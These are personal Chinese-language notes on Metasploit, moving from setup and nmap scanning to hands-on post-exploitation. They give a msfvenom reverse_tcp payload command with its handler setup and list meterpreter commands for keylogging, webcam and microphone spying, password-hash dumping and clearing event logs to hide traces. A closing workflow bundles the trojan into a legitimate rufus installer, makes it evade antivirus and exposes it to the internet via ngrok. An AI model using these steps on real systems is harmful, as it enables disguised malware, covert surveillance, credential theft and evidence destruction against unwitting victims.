

1

# 发展历史

当H.D. Moore在2003年发布Metasploit时，计算机安全状况也被永久性地改变了。

仿佛一夜之间，任何人都可以成为黑客，每个人都可以使用攻击工具来攻击那些未打过补丁或者刚刚打过补丁的漏洞。

软件厂商再也不能推迟发布针对已公布漏洞的补丁了，

这是因为Metasploit团队一直都在努力开发各种攻击工具，并将它们贡献给所有Metasploit用户。

Metasploit的设计初衷是打造成一个攻击工具开发平台，

# 使用接口

Metasploit提供两种不同的UI，msfconsole和WebUI，本文中主要使用msfconsole。因为msfconsole对metasploit支持最好，可以使用所有功能。

msf使用postgresql，所以需要开启服务

```
systemctl start postgresql && systemctl enable postgresql
```

在msf下， 输入db_status查看数据库的连接状态。

# workspace

msf下，输入workspace可以查看当前的workspace，默认是default。

workspace -h，可以查看帮助信息。

workspace xx。切换到xx这个workspace。

# 使用数据库

db_import，查看支持导入的文件类型。

典型的就是xml的。

我们可以先用nmap来扫描，得到xml文件。然后把xml导入给msf用

```
nmap -Pn -A -oX report 192.168.177.139
```

```
db_import /root/report
```

输入hosts命令。可以查看当前workspace里之前扫描过的主机的情况。

输入services命令，可以查看hosts上可用的服务的情况。

search命令，搜索模块。

基本语法

搜索windows的相关漏洞。

```
search windows type:exploit
```


命令分类（直接help查看到的）

```
核心命令
	cd 当前机器上切换目录。
	connect 连接到目标机器。
	get/set 获取或设置变量
	load 载入一个插件。
	repeat 重复一系列的命令。
	sessions 查看活跃的会话。
模块命令
	advanced 显示当前模块的高级特性。
	back 这个就是从当前模块退出去。这样来切换用另外一个模块。
	show 后面跟参数，例如options。
	search 查看模块。
	use使用模块。
job命令
	jobs 当前当前任务。
	kill杀掉一个job。
	
资源脚本命令
	就2个。
	makerc
	resource
	
数据库命令
	hosts 数据库里所有的主机。例如我们刚刚进行了一次扫描，则扫描的主机信息可以看到。
	vulns 查看漏洞。
开发者命令
辅助命令
	run
	exploit
	这2个命令最常用。exploit是run的别名。
```

代码在这里：

https://gitlab.com/kalilinux/packages/metasploit-framework

https://github.com/rapid7/metasploit-framework


# 漏洞利用基本概念

 

漏洞(vulerability)

漏洞指一个软件或者硬件安全漏洞，攻击者可以利用这个漏洞攻陷系统，可以是一个弱密码也可以是一个CVE编号系统漏洞。

漏洞攻击(exploit)

黑客利用一个安全缺陷进入系统当中，本质上就是一些恶意的代码数据包，借助这些代码黑客可以入侵某台机器。

攻击载荷(payload)

攻击载荷是在漏洞攻击成功之后，方便我们控制这个系统。

Shellcode

指令集一般作为payload使用。

监听器(Listener)

一个攻击组件等待传入的连接请求。

# 安装

可以从这里下载windows版本安装使用。安装包大概700M。

https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers

metasploit是rapid7这公司和社区共同维护。

主体代码是用ruby写的。

使用msfupdate进行攻击模块的更新。

# 为什么使用ruby

在整个框架的开发过程中，Metasploit 员工不断被问到的一个反复出现的问题是为什么选择 Ruby 作为编程语言。为了不再单独为提问者回答这个问题，作者选择在本文中解释原因。

由于多种原因，Ruby 编程语言被选中而不是例如 Python，Perl 或者 C++。

**Ruby 被选中的第一个（也是最主要的）原因是因为它是 Metasploit 员工喜欢写的一种语言。**

花费时间分析其他语言并考虑过去的经验后，我们发现 Ruby 编程语言作为**解释型语言**它提供了一种简单而强大的方法。

Ruby 的面向对象的特性和内省机制 (译者注: 类似于 Java 的反射 ( Reflection ) 机制) 可以非常好的适应框架开发的需求。

除此之外，在提供相同级别的语言特性的条件下（例如: Perl 语言），Ruby 的语法简单的特性就显得更重要了。

**Ruby 被选中的第二个原因是因为其独立于平台的线程支持。**

选择 Ruby 的另一个原因是因为 Windows 平台支持原生解释器。 虽然 Perl 有一个 Cygwin 版本和一个 ActiveState 版本，但都受到可用性问题的困扰。 Ruby 解释器可以在 Windows 上本地编译和执行大大提高了性能。 此外，解释器也非常小，可以在出现错误时轻松修改。

C/C++ 编程语言也曾将被非常慎重地考虑
但最终很明显，尝试以非解释型语言部署 **便携式** 和 **可用** 框架并不合适。


# 搜集信息

在信息收集阶段，我们主要任务是收集关于目标机器的一切信息，比如`IP`地址，开放的服务，开放的端口。这些信息在渗透测试过程中启到了至关重要的作用。为了实现这一目的，我们将在本章学习各种扫描技术、如`SMB`扫描、`SSH`服务扫描，`FTP`扫描、`SNMP`枚举、`HTTP`扫描以及`WinRM`扫描和暴力破解。

收集信息的方式主要有三种：

1. **被动信息收集**：这种方式是指在不物理连接或访问目标的时候（不通过发送数据包到目标），获取目标的相关信息，这意味着我们需要使用其他信息来源获得目标信息。比如查询`whois`信息。假设我们的目标是一个在线的Web服务，那么通过`whois`查询可以获得它的`ip`地址，域名信息，子域信息，服务器位置信息等。
2. **主动信息收集**：这种方式是只与目标建立逻辑连接获取信息，这种方式可以进一步为我们提供目标信息，让我们的目标的安全性进一步理解。在端口扫描中，使用最常用的主动扫描技术，探测目标开放的端口和服务
3. **社会工程学**：这种方式类似于被动信息收集，主要是针对人为错误，信息以打印输出、电话交谈、电子邮件等形式泄露。使用这种方法的技术有很多，收集信息的方式也不尽相同，因此，社会工程学本身就是一个技术范畴。

使用auxiliary/gather目录下的工具。

```
use auxiliary/gather/enum_dns
```

这样就进入到enum_dns模块了。

我们输入info，就可以查看这个模块的信息。

设置参数，指定扫描模板。

```
set domain teddyxiong53.ml
```

一个参数就好了。domain是在前面info里看到的。

然后执行run，就可以进行分析了。


主动搜索，用nmap更好。

###### TCP SYN 扫描

相对普通的`TCP`扫描来说，`SYN`扫描速度更快，因为它不会完成`TCP`三次握手，而且可以在一定程度上躲避防火墙和入侵检测系统的检测。


info和show options比较

show options更加详细。而且包含了payload的信息。


# 执行msfupdate后数据库无法连接

删除当前的数据库

```
msfdb delete
```

程序初始化数据库

```
msfdb init
```

会提示输入用户名和密码。我就用teddy。

重启postrgresql。

```
sudo service postgresql restart
```

然后用teddy的身份进入到msfconsole。

就正常了。

# run和exploit的区别

没有区别，如 `exploit`   是 `run`的别名 ：

而且现在exploit都被去掉了。

只用run就好了。

# 测试reverse_tcp

生成一个payload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.2.126 LPORT=3333 -f exe -o test.exe
```

把test.exe拷贝到靶机上。执行马上会被杀掉的。

所以加入到信任区。执行后在进程里可以看到。



攻击机这边进入msfconsole。

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 172.16.2.126
set lport 3333
```

然后靶机上执行test.exe。

然后攻击机这边就可以看到打印提示已经有客户机连接过来了。

命令行提示符也变成了meterpreter了。

现在就相当于在靶机上操作了。

怎么传递一个exe文件过来呢？

在meterpreter下，本地还是有命令的。不是所有的东西都传递给靶机执行的。

可以输入help查看帮助信息。

核心命令

```
bg
	执行这个相当于把当前的session放到后台。
	然后就回到了msf的提示符下面。
	要回来，就用session命令。
	sessions -i 1
bgkill
	
bglist
channel
disable_unicode_encoding
enable_unicode_encoding
	这2个配套使用。看看有没有乱码。
exit
	退出meterpreter
get_timeouts
	查看session的超时时间。一般是几天后。
guid
	这个是得到一个session的uuid。
run
	运行一个脚本。
set_timeouts
	设置session超时。
sleep
	睡眠。会退出的。一般别执行。

```

文件系统命令

```
cat 1.txt
cd xx
checksum md5 1.txt
cp 1.txt 2.txt
del 2.txt
dir ./
download 1.txt
	这个就是从靶机上把文件下载到本地。
edit 1.txt
	打开编辑一个文件。是在靶机上新建文件。
	编辑是用vim来编辑的。
getlwd
	这个是打印攻击机的当前目录，例如/root。
getwd
	这个是打印靶机的当前目录。
lcd
lpwd
lls
	这个都是对本机进行操作。
mkdir d1
mv d1 d2
pwd
rm 2.txt
rmdir d1
search -f 1.txt
show_mount
	查看靶机上的磁盘挂载情况。
upload 1.exe
	这样上传一个exe文件到靶机上。
```

网络命令

```
arp	
	查看arp表。
getproxy
	获取靶机的代理情况。
ipconfig/ifconfig
	查看网卡。
route
	查看修改路由表。
```

系统命令

```
clearev
	清除系统事件日志。
	所有windows系统日志都被清除了。擦除痕迹不错。
execute -f 1.bat
	执行文件。我先edit 1.bat。里面写入依据pause。
	执行，则客户机会弹出cmd窗口。
getuid
	打印当前的用户名。
kill pid
	杀掉靶机上的特定进程。
	可以用来干掉杀毒软件。
	但是实际上干不掉。会提示没有权限。
pgrep xx
	过滤进程。
pkill
	这个跟kill的区别在于，这个是用名字，而不是用pid。
reboot
	重启靶机。
reg
	操作靶机注册表。
shell
	这样命令行提示符就变成dos的了。而不是meterpreter。
	这样就可以很方便地执行exe文件。
	要退回到meterpreter，输入exit就好。
sysinfo
	查看靶机的信息。
```

UI命令

```
enumdesktops
	查看靶机的所有桌面。
getdesktop
	获取当前的桌面。并不是截图。只是session id而已。
idletime
	查看靶机空闲的时间。这样就方便在靶机无人操作的时候进行操作。
keyboard_send xxx
	这样就相当于在靶机上输入了xxx字符串。
keyevent enter press
	这样相当于在靶机上按了一下enter键。
keyscan_dump
	把按键buffer里的内容dump出来。
	当前是有错误。
keyscan_start
keyscan_stop
	开始和结束按键扫描。
mouse rightclick
	这样相当于在靶机上操作鼠标右键。
screenshare
	实时查看靶机的桌面。
	这样是向一个本地的网页进行发送。
	攻击机用浏览器打开生成的网页就可以了。
	但是实际没有动态播放。
screenshot
	这个是对屏幕进行截图。
uictl
	可以控制禁用靶机的按键、鼠标。
	
```

摄像头操作

```
record_mic
	控制靶机启动录音。
webcam_chat
webcam_list
	列出靶机的摄像头。
webcam_snap
	控制靶机拍照。
webcam_stream
	控制靶机录像。
```

音频控制

```
play 1.wav
	控制靶机播放音频。
```

评估命令

```
getsystem
	看看你在靶机里的权限是怎样的。
```

密码相关

```
hashdump
	dump SAM数据库的内容。
	
```

从上面的来看，基本上就完全控制了靶机了。

接下来就是对我的工具进行免杀操作。


碰到一个问题，就是一个命令行程序，生成到靶机执行，会弹窗。而且也没有得到想要的结果。

这个应该怎么解决呢？输入shell，直接在windows提示符下执行操作就好了。


# 完整流程

就以rufus-3.8p.exe作为捆绑对象。

用winrar来做自解压压缩包。具体操作参考本目录下的《渗透之木马捆绑》一文。

让木马本身就免杀。

使用前面生成的test3.exe就可以。

可以解压运行，但是有问题：

```
1、test3.exe运行弹出了一个窗口。
	这个就很明显了。
2、在服务端这个没有在线的情况下，靶机的回连几秒就超时退出。
	这个只能让服务端一直在线。
```

但是还有个问题，就是在公网上如何做呢？


网上给的思路也是在云服务器上安装metasploit。

看看还有没有其他的方式。

设置好ngrok，弹shell到ngrok的公网服务器ip端口上，本地监听ngrok的127.0.0.1的地址加ngrok的本地转发端口

还有也就是用frp来做的。本质都是一样的。


当前了解的操作都是非常手动化的，能不能批量自动化呢？

Cobalt Strike 一款以Metasploit为基础的GUI框架式渗透测试工具，集成了端口转发、服务扫描，自动化溢出，多模式端口监听，exe、powershell木马生成等。


先不要搞这么多。先实实在在在局域网里搞定再说。


# 用reverse_http方式

https://blog.rapid7.com/2011/06/29/meterpreter-httphttps-communication/

这篇文章就描述了使用http和https来进行回连的。


# meterpreter

 Meterpreter是Metasploit框架中的一个扩展模块，**作为溢出成功以后的攻击载荷**使用，

攻击载荷在溢出攻击成功以后给我们**返回一个控制通道。**

使用它作为攻击载荷能够获得目标系统的一个Meterpreter shell的链接。

Meterpreter shell作为渗透模块有很多有用的功能，

在远程主机上隐藏自己,它不改变系统硬盘中的文件,

因此HIDS[基于主机的入侵检测系统]很难对它做出响应。

此外它在运行的时候系统时间是变化的,所以跟踪它或者终止它对于一个有经验的人也会变得非常困难。

最后,Meterpreter还可以简化任务创建多个会话。

可以来利用这些会话进行渗透。

在Metasploit Framework中，Meterpreter**是一种后渗透工具**，

它属于一种在运行过程中可通过网络进行功能扩展的动态可扩展型Payload。

这种工具是**基于“内存DLL注入”理念实现的**，它能够通过创建一个新进程并调用注入的DLL来让目标系统运行注入的DLL文件。

其中，攻击者与目标设备中Meterpreter的通信是通过Stager套接字实现的meterpreter作为后渗透模块有多种类型，

并且**命令由核心命令和扩展库命令组成**，极大的丰富了攻击方式。

需要说明的meterpreter在漏洞利用成功后会发送第二阶段的代码和meterpreter服务器dll，

所以在网络不稳定的情况下经常出现没有可执行命令，

或者会话建立执行help之后发现缺少命令。 

连上vpn又在内网中使用psexec和bind_tcp的时候经常会出现这种情况

Metasploit提供了各个主流平台的Meterpreter版本，

包括Windows、Linux，同时支持x86、x64平台，

另外，Meterpreter还提供了基于PHP和Java语言的实现。

Meterpreter的**工作模式是纯内存的**，好处是启动隐藏，很难被杀毒软件监测到。

不需要访问目标主机磁盘，所以也没什么入侵的痕迹。

除上述外，Meterpreter还支持Ruby脚本形式的扩展。所以Ruby语言还很有必要。

## Meterpreter中常用的反弹类型


Metasploit中的Payload模块主要有以下三种类型：

-Single

-Stager

-Stage


参考资料

1、官方文档

https://metasploit.help.rapid7.com/docs

2、Metasploit 平常『习惯』的养成

https://www.bodkin.ren/index.php/archives/458/

3、Metasploit文件目录与入侵基本概念

https://blog.csdn.net/momo_sleet/article/details/81223324

4、Metasploit：为什么选择 Ruby？

https://xz.aliyun.com/t/2376

5、Metasploit快速入门（一）

这个作者的系列文章很好。

https://www.cnblogs.com/kikochz/p/13637133.html

6、[Kali_Metasploit]db_connect创建连接时无法连接的解决方案

https://www.cnblogs.com/webapplee/p/4072701.html

7、Metasploit 数据库连接失败的问题

https://blog.csdn.net/ericzhangyuncsdn/article/details/79455882

8、metasploit:运行和利用之间的区别

https://codebug.vip/questions-370605.htm

9、Metasploit：如何在 Metasploit 中使用反弹 Shell

https://xz.aliyun.com/t/2380

10、METERPRETER BASIC COMMANDS

https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

11、傻瓜式Metasploit外网渗透（无需内网穿透）

https://www.jianshu.com/p/c6280c4cafc9

12、作为内网杀手的metasploit如何在外网使用呢？

https://blog.csdn.net/qq284489030/article/details/90031998

13、低成本打造一个高性能的外网metasploit

https://www.sqlsec.com/2018/03/cloud.html

14、CobaltStrike进阶篇-批量上线

https://www.ajsafe.com/news/25.html

15、Meterpreter命令详解

https://www.cnblogs.com/backlion/p/9484949.html